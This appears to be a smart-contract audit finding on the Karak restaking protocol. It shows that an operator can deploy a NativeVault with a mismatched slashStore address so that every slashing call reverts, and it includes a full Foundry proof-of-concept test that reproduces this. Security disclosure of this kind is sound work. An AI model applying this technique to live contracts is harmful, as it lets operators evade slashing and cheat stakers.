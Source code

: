 ## [H] The operator can create a `NativeVault` that can be silently unslashable

An operator can create a `NativeVault` which always reverts when `slashAssets()` is called and make the vault unslashable.

### Proof of Concept

When an operator want to create a `NativeVault`, he call the `deployVaults()` function on the `Core` contract with a custom config struct to give informations for the deployment. The `extraData` params is used to give the `manager`, `slahsStore` and `nodeImplementation` addresses on the `initialize()` function of the `NativeVault`.

When an asset is allowed on the protocol, a `slashingHandler` address is associated with the asset address on the `assetSlashingHandlers` mapping.

`NativeVault` is used to make native restaking with the ETH of Beacon Chain validators of users. When a slashing is executed, the address of `assetSlashingHandlers` mapping is inserted as a params in [the call](repos/2024-07-karak/src/entities/SlasherLib.sol#L134-L138) `slashAssets()` :

```solidity
    for (uint256 i = 0; i < queuedSlashing.vaults.length; i++) {
        IKarakBaseVault(queuedSlashing.vaults[i]).slashAssets(
            queuedSlashing.earmarkedStakes[i],
            self.assetSlashingHandlers[IKarakBaseVault(queuedSlashing.vaults[i]).asset()]
        );
    }
```

Then the function make this [verification](repos/2024-07-karak/src/NativeVault.sol#L308) with the input address of `slashingHandler`:

```solidity
    if (slashingHandler != self.slashStore) revert NotSlashStore();
```

If the operator, during the initialization, insert a `slashStore` address which is different from the `assetSlashingHandlers` address for ETH, the call on the `NativeVault` will always revert and make the vault slash impossible.

**Proof of Concept**

You can add this PoC to the `./test/nativeRestaking/nativeVault.t.sol`:

```solidity

    function test_createUnslashableVault() public {
        //Setup
        vm.warp(1718549030);
        NativeVault unslashableVault;
        address badSlashStore = address(666);
        DSSContract dss = new DSSContract();

        vm.startPrank(address(dss));
        core.registerDSS(100000000000000000000);
        vm.stopPrank();       
        // Setup NativeNode implementation
        address nativeNodeImpl = address(new NativeNode());

        // Deploy Vaults
        VaultLib.Config[] memory vaultConfigs = new VaultLib.Config[](1);
        vaultConfigs[0] = VaultLib.Config({
            asset: Constants.DEAD_BEEF,
            decimals: 18,
            operator: operator,
            name: "NativeTestVault",
            symbol: "NTV",
            extraData: abi.encode(address(manager), badSlashStore, address(nativeNodeImpl))
        });

        vm.startPrank(operator);
        IDSS dssInterface = IDSS(address(dss));
        core.registerOperatorToDSS(dssInterface, bytes(""));
        IKarakBaseVault[] memory vaults = core.deployVaults(vaultConfigs, address(0));
        unslashableVault = NativeVault(address(vaults[0]));
        
        //Register vault staked for dss
        Operator.StakeUpdateRequest memory stakeRequest = Operator.StakeUpdateRequest({
            vault: address(unslashableVault),
            dss: dssInterface,
            toStake: true
        });
        Operator.QueuedStakeUpdate memory queuedStake = core.requestUpdateVaultStakeInDSS(stakeRequest);
        vm.warp(1718549030 + 10 days);
        core.finalizeUpdateVaultStakeInDSS(queuedStake);
        vm.stopPrank();
        
        vm.startPrank(address(dss));
        //Slash request 
        uint96[] memory slashPercentagesWad = new uint96[](1);
        slashPercentagesWad[0] = 10000000000000000000;
        address[] memory operatorVaults = new address[](1);
        operatorVaults[0] = address(unslashableVault);
        
        SlasherLib.SlashRequest memory slashingReq = SlasherLib.SlashRequest({
            operator: operator,
            slashPercentagesWad: slashPercentagesWad,
            vaults: operatorVaults
        });

        //Request and execute the slashing but revert
        SlasherLib.QueuedSlashing memory queuedSlashing = core.requestSlashing(slashingReq);
        vm.warp(1718549030 + 14 days);
        core.finalizeSlashing(queuedSlashing);
        
        vm.stopPrank();
    }
```

Add also this contract for the dss on the same file :

```solidity
    contract DSSContract {
        uint256 variable;
        constructor() {
            variable = 1;
        }
        function returnVariable() external view returns(uint256 _variable) {
            _variable = variable;
        }
    }
```

And execute the command: `forge test --mt test_createUnslashableVault -vvvvv`.




